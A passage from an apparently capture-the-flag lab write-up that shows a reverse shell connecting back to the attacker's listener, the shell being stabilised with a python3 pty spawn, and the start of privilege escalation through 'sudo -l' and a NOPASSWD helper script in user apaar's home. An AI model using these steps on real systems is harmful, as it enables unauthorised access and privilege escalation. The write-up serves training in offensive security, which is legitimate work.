 After executing our payload, we've got a shell !!!

```bash
listening on [any] 1234 ...
connect to [10.8.104.101] from (UNKNOWN) [10.10.98.178] 51092
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

But it's not that stable, let's stabilize it a little using python.

```bash
$ python --version
/bin/sh: 2: python: not found
$ python3 --version
Python 3.6.9
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/secret$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html/secret$
```

Much better, now let's begin exploring !

### privilege escalation

Now that we are inside the machine, let's explore it a little.

The first thing i like to test before jumping to anything else is `sudo -l`, it is nothing fancy but challenges can sometimes be fishy, you'll never know !

```bash
www-data@ubuntu:/var/www/files/images$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

See ? we can run the script `/home/apaar/.helpline.sh` as `apaar`.

Now do you remember that user? it is the one who wrote that note.

Let's go ahead and see what that script does.

```bash
www-data@ubuntu:/var/www/files/images$ cd /home/apaar
cd /home/apaar
www-data@ubuntu:/home/apaar$ ls -lhisa
ls -lhisa
total 44K
655374 4.0K drwxr-xr-x 5 apaar apaar 4.0K Oct  4  2020 .
655361 4.0K drwxr-xr-x 5 root  root  4.0K Oct  3  2020 ..
655391    0 -rw------- 1 apaar apaar    0 Oct  4  2020 .bash_history
655375 4.0K -rw-r--r-- 1 apaar apaar  220 Oct  3  2020 .bash_logout
655376 4.0K -rw-r--r-- 1 apaar apaar 3.7K Oct  3  2020 .bashrc
655389 4.0K drwx------ 2 apaar apaar 4.0K Oct  3  2020 .cache
655387 4.0K drwx------ 3 apaar apaar 4.0K Oct  3  2020 .gnupg
655380 4.0K -rwxrwxr-x 1 apaar apaar  286 Oct  4  2020 .helpline.sh
655377 4.0K -rw-r--r-- 1 apaar apaar  807 Oct  3  2020 .profile
655385 4.0K drwxr-xr-x 2 apaar apaar 4.0K Oct  3  2020 .ssh
655381 4.0K -rw------- 1 apaar apaar  817 Oct  3  2020 .viminfo
655378 4.0K -rw-rw---- 1 apaar apaar   46 Oct  4  2020 local.txt

```